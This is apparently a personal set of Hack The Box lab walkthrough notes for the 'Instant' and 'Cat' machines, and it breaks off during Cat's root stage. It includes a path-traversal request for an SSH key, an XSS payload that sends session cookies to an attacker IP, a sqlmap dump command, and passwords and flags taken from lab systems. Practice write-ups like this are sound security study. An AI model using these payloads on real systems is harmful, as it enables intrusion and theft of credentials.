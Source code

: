 - test -> create a user -> it works
- We have the function `/api/v1/admin/read/log`
- Inside, we have an example with a name, shirohige
- I try multiple ways to access stuff, finally, i come across : 
`../../../../../../../home/shirohige/.ssh/id_rsa`
- I get the ssh key -> i log with `ssh -i id_rsa shirohige@instant.htb`
- I get the user flag : `8c0aae4f74c8096c60306a49bae1cc5f
## Root flag
- I try to find useful files, i find /opt/backups/Solar-PuTTY
- I look on internet and find solar putty cracker
- i use the script, and i get the root flag : `12**24nzC!r0c%q12
- i log as root and get the root flag : `d8735de6e104fb6e96a02d008f87f700`

# Machine : Cat

## User Flag
- `sudo nmap -sC -sT -p- -T4 10.10.11.53`
- we find an http website (cat.htb) 
- We can create an account and login
- we can enter the contest by entering cat infos and uploading a picture (the upload might be an attack vector)
- tried fuzzing for subdirectories and found some tracks 
`ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -fs 0`
- there was a .git subdirectory so i used git-dumper to get the info in my machine
- i grep for usernames and passwords to see if i can find any usefull information in the git file (equality tests etc)
- i find the username axel quite often in checks which might mean that axel has admin privileges 
- i also found out that md5 was used to process the password which could be an attack vector
- if i `git log` i can get infos on the repo and axels email `axel2017@gmail.com`
- there is a sql database at /databases/cat.db config.php handles its configuration
- contest.php hanles user submissions for the cat contest
- admin.php is the administration panel for cats ( potential XSS vulnerability (untested yet))
- view_cat.php also seems to have a potential XSS vuln since it echos user input without verification.
- after carefull reading of the code im going to try to inject some SQL code via the catname but won't work because there is sanitization in contest.php :(
- <script>document.location='http://10.10.14.124/?c='+document.cookie;</script> 
- o7hrcras4j58qb3reao12u0ntq
- this gives us acces when we modify our cookies in our browser to the admin apge to accept/deny cats
- used this command (source forum)
`sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=mal" --cookie="PHPSESSID=o7hrcras4j58qb3reao12u0ntq" -p catName --level=5 --risk=3 --dbms=SQLite --dump`
- this dumps the user table which contains hashes for passwords 
- rosa's password is reversible and translates to `soyunaprincesarosa`
- we can finally connect to rosa by ssh
- we can access the apache server logs if we grep by axel we find the password he used to log
```
rosa@cat:/var/log/apache2$ cat access.log  | grep axel
127.0.0.1 - - [18/Feb/2025:15:24:09 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"

```
- `su axel`
- user flag is in his home directory `f6b99b039505891b276492cfc84e59e3`
## Root flag
- when logging to axel we have a message pop up saying we have mail